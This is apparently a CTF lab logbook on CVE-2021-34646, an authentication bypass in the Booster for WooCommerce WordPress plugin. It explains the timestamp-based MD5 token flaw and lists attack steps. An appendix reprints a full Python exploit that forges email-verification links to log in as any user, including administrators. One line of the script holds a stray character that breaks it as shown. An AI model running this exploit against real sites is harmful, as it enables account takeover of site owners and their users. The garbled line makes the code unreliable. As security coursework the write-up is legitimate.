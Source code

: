 # LOGBOOK 3 - CVE-2021-34646

Versions of the Booster for WooCommerce WordPress plugin up to and including 5.4.3 have a security vulnerability related to authentication bypass. This vulnerability stems from a weakness in the random token generation process within the "reset_and_mail_activation_link" function. Exploiting this vulnerability enables malicious actors to impersonate users and trigger email address verification for arbitrary accounts, including those with administrative privileges. Consequently, attackers can automatically log in as the targeted user, including site administrators.

## CVE Explanation

A critical vulnerability was discovered in the WordPress plugin known as "Booster for WooCommerce" (CVE-2021-34646). When the plugin's Email Verification module was activated along with the "Login User After Successful Verification" setting, it exposed a severe security flaw. This vulnerability allowed malicious actors to gain unauthorized access to the website by impersonating any user, ranging from regular users to administrative accounts. The root cause of this issue was a weakness in the token generation process within the "reset_and_mail_activation_link" function, located in the "~/includes/class-wcj-emails-verification.php" file.

The primary issue with the plugin centered around the generation of verification tokens required to validate email addresses. Specifically, the code employed a simplistic MD5 hash of the timestamp when the request was initiated. Consequently, an attacker could easily replicate the verification code for any user account by determining the timestamp of their request.

Moreover, additional design flaws were present on the website. One notable issue was the inadvertent disclosure of the software stack used by the webpage. This disclosure inadvertently assisted attackers in identifying potential vulnerabilities in the project.

![wordpress info](images/CTF3/image.png)

Furthermore, there was an oversight in the password recovery process. When attempting to recover a password with only the user's email address and clicking the submit button, the system provided distinct success or error messages. This inconsistency in responses, regardless of whether the account existed or not, inadvertently leaked valuable information to potential attackers, thereby aiding them in targeting the website.

![wordpress info](images/CTF3/image1.png)

![wordpress info](images/CTF3/image2.png)

In summary, this critical vulnerability presented an opportunity for attackers to exploit the website with the objective of gaining administrative access and subsequently taking control of it.

## Attack step-by-step
1. Inspect the entire website. There is a page that indicates the versions of the plugins that are installed.
2. Search online for CVEs related to the software. You will find many. In this case, we received a tip that it had something to do with authentication, so that should narrow it down.
3. You will find the source code below. Download it. It is a python exploit that generates login tokens based on timestamps and constructs URLs that can potentially grant unauthorized access to the targeted WordPress site.
4. To use the exploit, one must simply access the target websites REST API endpoint, as described in the source code, and retrieve user data, more specifically, their IDs.
5. The hacker only needs to run the script with two parameters, the target website's URL and the desired user's ID, gaining access to the user's account.

## Appendix A - Source Code

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)


def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]j

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")

```
